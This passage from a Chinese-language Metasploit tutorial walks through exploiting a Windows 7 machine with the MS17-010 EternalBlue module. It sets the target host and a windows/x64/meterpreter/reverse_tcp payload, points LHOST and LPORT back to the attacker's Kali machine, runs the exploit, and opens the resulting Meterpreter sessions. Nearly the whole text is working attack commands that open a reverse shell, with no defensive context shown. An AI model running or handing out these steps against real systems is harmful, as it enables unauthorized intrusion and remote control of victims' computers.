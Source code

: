 3. **设置目标主机**：

   ```
   msf exploit(ms17_010_eternalblue) > set RHOSTS [target IP]
   ```

   替换 `[target IP]` 为 Windows 7 目标机器的 IP 地址。

4. **设置负载**：

   ```
   msf exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
   ```

   你可以选择 `windows/x64/meterpreter/reverse_tcp` 或 `windows/meterpreter/reverse_tcp` 取决于目标机器的架构（x64 或 x86）。

5. **设置你的监听 IP 地址**：

   ```
   msf exploit(ms17_010_eternalblue) > set LHOST [your IP]
   ```

   替换 `[your IP]` 为你的 Kali Linux 机器的 IP 地址。

6. **设置监听端口（可选，默认为 4444）**：

   ```
   msf exploit(ms17_010_eternalblue) > set LPORT [port number]
   ```

   替换 `[port number]` 为你希望使用的端口号。如果不设置，默认为 4444。

### 3. 执行漏洞利用

1. **运行利用**：

   ```
   msf exploit(ms17_010_eternalblue) > exploit
   ```

   或者使用 `run` 命令：

   ```
   msf exploit(ms17_010_eternalblue) > run
   ```

2. **等待攻击完成**： 如果成功，你会看到 Metasploit 控制台中出现 Meterpreter 会话的提示。

### 4. 与 Meterpreter 会话交互

1. **查看活动会话**：

   ```
   msf > sessions -l
   ```

2. **与 Meterpreter 会话交互**：

   ```
   msf > sessions -i [session ID]
   ```
